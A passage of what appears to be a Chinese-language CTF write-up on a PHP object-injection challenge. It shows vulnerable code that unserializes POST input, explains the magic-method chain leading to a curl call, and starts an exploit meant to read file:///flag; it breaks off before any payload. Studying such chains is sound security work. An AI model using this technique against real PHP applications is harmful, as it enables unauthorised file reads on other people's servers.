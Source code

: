 ```php=
}

class TEST{
    public function __construct($note, $url)
    {
        $this->note = $note;
        $this->url = $url;
    }
    public function __destruct()
    {
        if (preg_match('pwned', $this->url))
        {
            system('echo `date` >> log.txt');
        };
    }
}

if (isset($_POST['pop'])){
    unserialize(base64_decode($_POST['pop']));
}
?>
```
首先要理解php的[Magic Method](https://docs.phplang.net/manual/en/language.oop5.magic.php)
- `__wakeup()` \: object被deserialization時自動調用
- `__destruct()` \: object的lifecycle結束(被Destruction)自動調用
- `__get()` \: 訪問未定義時自動調用

然後我們會發現:

php腳本結束時，會自動調用`TEST::__destruct()`

裡面的`grep_match('pwned', $this->url)`第二個參數應該是`string`，但`$this->url`是一個object

這時候就會自動觸發`MEOW::__toString()`，裡面又訪問了`$this->id->r3a1_name`

但`r3al_name`沒被定義，這時候觸發`WHALE::__get()`(`__get(r3al_name)`)

然後get裡面執行了curl請求

payload目標:`__get()`請求內的`curl(r3al_name)`改為`curl(file:///flag)`


撰寫exploit:
```php=
<?php
class WHALE{
    public function __construct($name, $report_uri)
    {
        $this->name = $name;
        $this->report_uri = $report_uri;
    }
}

class MEOW{
    public function __construct($cat_struct)
    {
        $this->id = $cat_struct;
    }
}

class TEST{
    public function __construct($note, $url)
    {
        $this->note = $note;
        $this->url = $url;
    }
} 
```

[//]: # (chal_17.py:)